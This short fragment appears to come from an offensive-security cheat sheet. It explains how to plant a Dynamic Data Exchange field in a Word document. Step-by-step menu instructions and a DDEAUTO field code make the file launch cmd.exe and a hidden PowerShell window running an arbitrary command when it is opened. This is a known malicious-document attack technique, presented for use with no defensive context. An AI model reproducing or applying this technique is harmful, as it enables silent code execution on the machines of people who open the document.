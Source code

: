 ### Create Dynamic Data Exchange inside Word document
```
Insert > Quick Parts (Icon with arrow down) > Field
= (Formula) > OK
Right click on "!Unexpected End of Formula" > Toggle Field Codes
Replace { = \* MERGEFORMAT } > { DDEAUTO "c:\\windows\\system32\\cmd.exe /c powershell.exe -nop -w hidden <command>" "title"}
```

